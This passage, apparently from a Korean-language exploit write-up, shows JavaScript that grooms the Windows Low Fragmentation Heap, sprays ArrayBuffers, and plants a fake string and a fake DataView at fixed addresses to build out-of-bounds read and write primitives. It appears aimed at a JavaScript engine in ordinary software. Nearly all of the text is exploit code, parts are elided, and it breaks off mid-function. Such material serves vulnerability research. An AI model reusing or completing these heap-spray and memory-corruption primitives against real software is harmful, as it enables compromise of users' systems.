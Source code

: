 ### Javascript code

아래는 위 과정을 수행하여 OOB Read/Write에 사용하는 `ArrayBuffer`를 생성하는 Javascript 코드입니다.

```jsx
/*
....
*/
const ALLOC_SIZE = 0x10000 - 24;
const ARR_BUF_BASE = 0x20000048;
const ARR_BUF_MALLOC_BASE = 0x20000040;

const arrBufPtr = ARR_BUF_BASE + 0x10;

const FAKE_STR_START = 0x40;
const FAKE_STR = arrBufPtr + 0x100;
const FAKE_DV_START = 0x60;
const FAKE_DV = arrBufPtr + 0x180;
/*
....
*/
function groomLFH(size, count) {
    var code =
        "%u4141%u4242%u4343%u4444%u4545%u4646%u4747%u4848%u4949%u4a4a%u4b4b%u4c4c%u4d4d%u4e4e%u4f4f%u5050%u0058%u2000%u5353%u5454%u5555%u5656%u5757%u5858%u5959%u5a5a%u5b5b%u5c5c%u5d5d%u5e5e%u5f5f%u6060%u6161%u6262%u6363%u6464%u6565%u6666%u6767%u6868%u6969%u6a6a%u6b6b%u6c6c%u6d6d%u6e6e%u6f6f%u7070%u7171%u7272%u7373%u7474%u7575%u7676%u7777%u7878%u7979%u7a7a%u7b7b%u7c7c%u7d7d%u7e7e%u7f7f%u8080%u8181%u8282%u8383%u8484";
    var string = unescape(code);

    for (var i = 0; i < count; i++) {
        chunks.push(string.substr(0, (size - 2) / 2).toUpperCase());
    }

    for (var i = 0; i < chunks.length; i += 2) {
        chunks[i] = null;
        delete chunks[i];
    }
}

function sprayArrBuffers() {
    for (var i = 0; i < 0x1500; i++) {
        bufs[i] = new ArrayBuffer(ALLOC_SIZE);
        const uintArr = new Uint32Array(bufs[i]);
        for (var k = 0; k < 16; k++) {
            uintArr[k] = 0x33333333;
        }
        uintArr[0] = arrBufPtr + 8; //first deref a = *ecx
        uintArr[1] = 0x41424344; //map size
        uintArr[2] = 0x41424344;
        uintArr[3] = ARR_BUF_BASE - 4;

        // fake string for arbitrary read
        uintArr[FAKE_STR_START] = 0x102; //type
        uintArr[FAKE_STR_START + 1] = arrBufPtr + 0x40; // buffer
        uintArr[FAKE_STR_START + 2] = 0x4;
        uintArr[FAKE_STR_START + 3] = 0x4;

        // fake dataview for arbitrary write
        uintArr[FAKE_DV_START] = 0x77777777;
        delete uintArr;
        uintArr = null;
    }

```